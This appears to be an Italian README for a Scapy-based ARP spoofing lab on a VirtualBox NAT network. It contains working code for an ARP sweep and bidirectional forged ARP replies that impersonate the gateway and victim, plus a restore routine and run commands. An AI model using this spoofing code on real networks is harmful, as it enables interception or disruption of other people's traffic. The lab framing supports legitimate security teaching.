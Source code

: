 # 🧪 Script `arptotale.py`
Questo script Python esegue un laboratorio ARP completo in ambiente virtuale NAT. Include sweep iniziale, spoofing ARP bidirezionale e ripristino automatico delle tabelle ARP alla pressione di `Ctrl+C`.

🧠 Dati finali per lo spoofing
Nodo	     IP	         MAC	            Interfaccia
Attaccante	10.0.2.16	00:11:22:33:44:55	     eth0
Vittima	    10.0.2.15	08:00:27:55:44:07	    enp0s3
Gateway	    10.0.2.2	52:54:00:12:35:02	    enp0s3

🔧 Modifica arp_spoof_lab.py
Nel tuo script, imposta:

victim_ip = "10.0.2.15"
victim_mac = "08:00:27:55:44:07"
router_ip = "10.0.2.2"
router_mac = "52:54:00:12:35:02"
attacker_mac = "00:11:22:33:44:55"

#Assicurati che l’interfaccia usata sia eth0.

🔥 Esecuzione dell’attacco
Sulla VM attaccante:


cd ~/arp_lab/scripts/
sudo python3 arp_spoof_lab.py


🧪 Verifica sulla VM vittima

ping 8.8.8.8

#Se il ping fallisce durante lo spoofing, l’attacco è riuscito.

🛡️ Ripristino
Sulla VM attaccante:

sudo sysctl -w net.ipv4.ip_forward=0

Sulla VM vittima:

sudo ip neigh flush all


## ⚙️ Funzionalità principali

### 1. ARP Sweep

#Effettua una scansione della rete (`10.0.2.0/24`) per identificare host attivi e i relativi MAC address.

arp = ARP(pdst=network_range)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
packet = ether / arp
result = srp(packet, timeout=2, iface=interface, verbose=False)[0]
------------------

### 2. ARP Spoofing
#Invia pacchetti ARP falsificati per impersonare il router verso la vittima e viceversa.

#La vittima crede che l'attaccante sia il router

#Il router NAT crede che l'attaccante sia la vittima
--------------------
pkt1 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac)
pkt2 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=attacker_mac)
send(pkt1)
send(pkt2)
---------

### 3. Ripristino ARP
#Alla pressione di Ctrl+C, lo script invia pacchetti corretti per ripristinare le tabelle ARP originali.

pkt1 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=victim_mac)
pkt2 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=router_mac)
send(pkt1, count=3)
send(pkt2, count=3)

---
📁 Log automatico
Tutte le operazioni vengono registrate nel file:


🛡️ Sicurezza
Funziona solo su rete NAT virtuale (VirtualBox)

Nessun impatto su router reale o rete fisica

Ripristino automatico garantito


▶️ Esecuzione

Da terminale sulla VM attaccante:

cd ~/arp_lab/scripts/
sudo python3 arptotale.py

✍️ Autore
Script scritto per ambienti CLI e laboratori di simulazione ARP. Ottimizzato per Debian minimal, VirtualBox NAT Network e logging automatico.


---
